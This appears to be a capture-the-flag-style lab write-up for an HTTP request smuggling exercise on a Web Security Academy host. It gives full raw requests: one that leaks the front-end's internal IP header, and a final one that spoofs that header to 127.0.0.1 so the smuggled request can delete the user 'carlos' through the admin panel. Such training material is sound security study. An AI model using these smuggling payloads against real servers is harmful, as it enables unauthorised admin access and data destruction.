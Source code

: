 So we craft our attack req:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 105 # 105 includes everything up until `search=jjjj`
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 163

search=jjjj
```
And we send our norm req:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

search=jjj
```
And in the response to the normal req we get:
```bash
...
<section class=blog-header>
<h1>0 search results for 'jjjjPOST / HTTP/1.1
X-qRjKfQ-Ip: 194.44.253.30
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlen'
</h1>
<hr>
</section>
...
```
So we smuggled the beginning of the subsequent request and we see that the frontend server is using `X-qRjKfQ-Ip: 194.44.253.30`

We can now use that header to access admin panel, by changing its value to 127.0.0.1:
So our attack req that deletes carlos:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
X-qRjKfQ-Ip: 127.0.0.1

x=
```
